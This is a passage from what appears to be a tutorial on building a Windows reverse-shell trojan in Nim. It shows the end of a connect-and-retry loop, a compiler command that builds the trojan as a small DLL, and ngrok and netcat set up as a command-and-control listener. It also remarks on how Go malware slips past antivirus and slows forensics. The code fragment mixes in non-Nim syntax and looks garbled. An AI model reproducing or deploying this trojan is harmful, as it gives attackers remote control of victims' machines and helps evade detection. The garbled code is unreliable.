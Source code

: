 ```
            except:
                socket.close()
                system.quit(0)
    except:
        echo "Connection failed, retrying in 5 seconds..."
        sleep(5000) # Waits 5 seconds
        continue

```
Notice that this implementation simply uses the standard socket library and assumes that you are forwarding the traffic through ngrok.
Everytime you start the Ngrok service you will be assigned a different IP address and Port, don't forget to update this in your own implementation.
The syntax of Nim is heavily influenced by python however you can do almost everything you could in C or C++ in Nim. It is also trivial to compile your tools for simple proof of concepts.

# Step 2: Compiling the Trojan as a Dynamic Link Library

Let's compile this script on our machine with the following compiler flags:

```
nim --os:windows --cpu:amd64 --gcc.exe:x86_64-w64-mingw32-gcc --gcc.linkerexe:x86_64-w64-mingw32-gcc -d:release --hints:off --warnings:off -d:danger --app:lib -d:strip --opt:size --passc=-flto --passl=-flto c reverse_shell.nim
```
The reason why we are passing so many flags to the compiler is because we want to optimize the size of our trojan. In this example the flags of most note are --app:lib (This instructs the compiler to generate a DLL file instead of an executable), --opt:size (This instructs the compiler to optimize the size of the file) -d:danger (Only use this flag if you are certain your application works, this will decrease the size even more)
Remember under the hood the Nim compiler is translating your code into C and then generating a DLL from the intermediary C code. Once we have our reverse_shell.dll you may be surprised to see that the resulting binary is surprisingly small considering the fact that we have written this code in a language with a dynamic syntax, only about 300 kilobytes! This means that on the target our malware will have a very small memory footprint. 
If we were to use a Go based reverse shell, the memory footprint would be much larger because all Go binaries contain the Go runtime.  There are indeed some advantages to using Go. Because the size of the binaries are so large, some AV products won't scan your binary. 
It is also much more time consuming to analyze Go based malware because forensics teams need to sift through the Go runtime code as well as benign library code in order to identify your malicious code. 
This very fact has led to AV vendors accidently writing signatures for the Go runtime and flagging important software like Docker as malware accidently in the past.
Now that we have our trojan ready to go lets fire up our command and control center, which in this example will simply consist of netcat.
Please remember you can neglect to use Ngrok and set up a netcat listener on another device on the same network.
If you have ngrok installed please run the following command to start the service:

```
./ngrok tcp 4444
```
